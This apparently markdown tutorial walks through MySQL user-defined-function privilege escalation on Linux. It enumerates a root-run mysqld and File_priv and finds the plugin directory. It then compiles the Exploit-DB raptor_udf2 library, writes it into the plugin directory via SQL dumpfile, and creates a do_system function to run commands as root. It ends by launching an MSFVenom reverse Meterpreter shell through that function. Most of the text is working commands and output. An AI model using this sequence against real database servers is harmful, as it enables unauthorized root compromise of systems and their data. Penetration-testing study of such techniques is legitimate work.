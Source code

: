 # MySQL User Defined Function Exploitation
## Exploit Enumeration
Is MySQL running as EUID `root` ?? If so, this exploit is used for privilege escalation and requires `File_priv` access for the current user. First, we check MySQL as running effective UID,
```
attacker@target:~# ps aux | grep mysq[l]d
root        916  0.0 10.8 885088 53580 ?        Sl   Jan03   0:10 /usr/sbin/mysqld
```
Perfect. Next, we check for file-write permissions in MySQL monitor console. To check this, try,
```
mysql> select File_priv from mysql.user where user = substring_index(user(), '@', 1) ;
+-----------+
| File_priv |
+-----------+
| Y         |
| Y         |
| Y         |
| Y         |
+-----------+
4 rows in set (0.00 sec)
```
As you can see, I have the permission denoted as 'Y'. 

Next, we need to see the MySQL services host OS and compiled variable names with the following two SQL queries,
```
mysql> select @@version_compile_os, @@version_compile_machine;select @@version_compile_os, @@version_compile_machine;
+----------------------+---------------------------+
| @@version_compile_os | @@version_compile_machine |
+----------------------+---------------------------+
| debian-linux-gnu     | x86_64                    |
+----------------------+---------------------------+
1 row in set (0.00 sec)

mysql> show variables like '%compile%';show variables like '%compile%';

+-------------------------+------------------+
| Variable_name           | Value            |
+-------------------------+------------------+
| version_compile_machine | x86_64           |
| version_compile_os      | debian-linux-gnu |
+-------------------------+------------------+
2 rows in set (0.00 sec)
```
Now we need to find the plugin directory with the following SQL query,
```
mysql> select @@plugindir;
+------------------------+
| @@plugin_dir           |
+------------------------+
| /usr/lib/mysql/plugin/ |
+------------------------+
1 row in set (0.00 sec)
```
Now, we know that the plugin must be located in `/usr/lib/mysql/plugin/`. This directory will most likely only be accessible (writeable at least) by root. What our goal is to use MySQL functions to write to this directory. Well, we know that we are using a 64bit version of MySQL from the output above, `x86_64`. This means we can obtain one online and hope that it is valid (and safe) OR simply comile our own as so,

## MySQL UDF Exploit (Exploit-DB)
We will be using this exploit "MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)" from [Exploit-DB.com](https://www.exploit-db.com/exploits/1518). Download the exploit to the `/tmp` or some other writeable directory, and compile it with,
```
user@target:/tmp$ gcc -g -c raptor_udf2.c -fPIC
```
This will create `raptor_udf2.o` which we will now use to compile the plugin as so,
```
user@target:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Now, we should have the file `raptor_udf2.so`. Let's use it with the MySQL monitor shell to exploit the damn thing.
```
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
mysql> \! sh
sh-2.05b$ cat /tmp/out
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
```
So, now, we can upload a reverse meterpreter shell, made with MSFVenom, to the target system into `/tmp`, named LinRevMet555, and execute it as root with,
```
mysql> select do_system('/tmp/LinRevMet5555');
```
And get a shell as root.
